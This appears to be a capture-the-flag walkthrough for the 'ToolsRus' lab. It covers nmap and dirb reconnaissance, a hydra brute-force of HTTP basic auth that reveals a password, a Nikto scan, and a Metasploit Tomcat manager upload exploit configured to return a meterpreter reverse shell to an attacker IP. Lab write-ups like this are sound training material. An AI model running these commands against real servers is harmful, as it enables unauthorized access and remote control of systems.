 # ToolsRus

## 1. What directory can you find, that begins with a "g"?

 First set up an environment variable to type commands more quickly.  

 `:> export server='10.201.71.243`

 Second, what targets are available  

 `:> nmap $server`  

 ![Nmap 1](assets/tools-01.png)

 What runs on the identified ports.  

 `:> nmap $server -sV`

 ![Nmap 2](assets/tools-02.png)

 Start with port 80  

 `:> dirb http://$server /usr/share/wordlists/dirb/big.txt`

 ![Nmap 2](assets/tools-03.png)

## 2. Whose name can you find from this directory?

 Download and see what is received.  

 `:> wget http://$server/<answer-to-previous-queestion>/`  

 ![WGET](assets/tools-04.png)  

 Check the contents  

 `:> cat <answer-to-previous-question>`  

 ![Guidelines Contents](assets/tools-05.png)  


## 3. What directory has basic authentication?

 Previously answered  

 ![Authentication Directory](assets/tools-03.png)

## 4. What is bob's password to the protected part of the website?

 `:> hydra -l "bob" -P /usr/share/wordlists/rockyou.txt 10.201.71.243 http-get /protected -f -o output.txt`  

![Authentication Directory](assets/tools-06.png)

## 5. What other port that serves a webs service is open on the machine?

 Previously Discovered  

## 6. What is the name and version of the software running on the port from question 5?

 Simply visit the server on the correct port from question 5.  

## 7. Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Not all the vulnerabilities are named in the same format.

![Nikto Scan](assets/tools-07.png)

## 8. What is the server version?

 Previously Discovered

## 9. What version of Apache-Coyote is this service using?

 Already Discovered  

## 10. Use Metasploit to exploit the service and get a shell on the system. 

 Start Metasploit with `:> msfconsole` and conduct a search for Tomcat with `:> search tomcat`. Option 65 is a reverse shell. `:>  use 18` will load the exploit.  

 ![Start Metasploit](assets/tools-08a.png)  

For additional detail, the exploit is an authenticated upload code execution that will work because we have discovered credentials already.  

 ![Start Metasploit](assets/tools-09.png)  

 Once the exploit is loaded, `show options` and begin editing the parameters with known information.
 ```` bash
 set HttpPassword bubbles
 set HttpUsername bob
 set RHOSTS 10.201.108.97 # Victim machine
 set RPORT ????
 set TARGETURI /manager # the default installation location
 set LHOST 10.201.33.191 # Attacker IP
 set LPORT 4444 # basic network security should block port 4444; consider other options.
 exploit
 ````

 ![Ready to Exploit](assets/tools-10.png)

 Exploited and the meterpreter reverse shell is achieved.  
 
## 11. What user did you get a shell as?

 Finding your identity does not work with `:> whoami`. Use `:> getuid` instead.  

 ![Identity](assets/tools-11.png)

## 12. What flag is found in the root directory?  

 The two comamands that reveal the answer are `:> ls` and `:> cat`.  
